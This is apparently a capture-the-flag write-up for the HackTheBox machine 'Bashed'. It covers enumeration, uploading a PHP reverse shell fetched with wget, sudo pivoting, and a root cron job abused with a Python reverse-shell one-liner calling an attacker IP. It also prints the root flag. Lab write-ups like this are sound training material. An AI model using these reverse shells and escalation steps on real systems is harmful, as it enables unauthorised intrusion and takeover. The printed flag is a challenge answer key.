

# Bashed

Add IP address to local DNS

```sh
[attacker] echo '10.129.235.166 bashed.htb'|sudo tee -a /etc/hosts
```

Nmap scan

```sh
[user@attacker] nmap bashed.htb
```

Open port 80/TCP with HTTP service.\
WFuzz web enumeration

```sh
[user@attacker] wfuzz -u http://bashed.htb/FUZZ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404
```

Available paths :

* http://bashed.htb/css
* http://bashed.htb/dev
* http://bashed.htb/images
* http://bashed.htb/js
* http://bashed.htb/php
* http://bashed.htb/uploads

I find a web shell on http://bashed.htb/php/dev/phpbash.php\
Import php reverse shell file.

```sh
[user@attacker] cp /usr/share/webshells/php/php-reverse-shell.php payload.php
```

Edit the `payload.php` with attacker host and netcat post listener.

<figure><figcaption></figcaption></figure>

On the attacker, start a Python web server

```sh
[user@attacker] python3 -m http.server
```

On the target, download the file `payload.php`

```sh
[www-data@target] wget -O payload.php http://10.10.14.81:8000/payload.php
```

From the attacker, start the netcat listener

```sh
[user@attacker] nc -lnvp 1234
```

Then go to the website and execute http://bashed.htb/uploads/payload.php\
Got the reverse shell on target.\
List sudo privileges.

```sh
[www-data@target] sudo -l
```

`www-data` can run all sudo command as `scriptmanager`

```sh
[www-data@target] sudo -u scriptmanager '/bin/bash'
[scriptmanager@target] cat /home/arrexel/user.txt
```

The file `test.txt` has a cron because somethin is updating its timestamp every minute.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Code inside of the file `test.py`

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Text inside of the file `test.txt`

```
testing 123!
```

Thus, only root can write in `test.txt` and it has root cron which executes `test.py` every minute.\
Add a new python file in the same directory `/scripts/write.py` which contains the following code

```sh
[scriptmanager@target] echo 'import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.81", 1235))
[os.dup2(s.fileno(),fd) for fd in(0,1,2)]
pty.spawn("sh")'|tee /scripts/write.py
```

Open the netcat listener

```sh
[user@attacker] nc -lnvp 1235
```

After 1 minut, it opens a root shell

```sh
[root@target] cat /root/root.txt	# 204827fc65f65b3c967b7c38298d6382
```
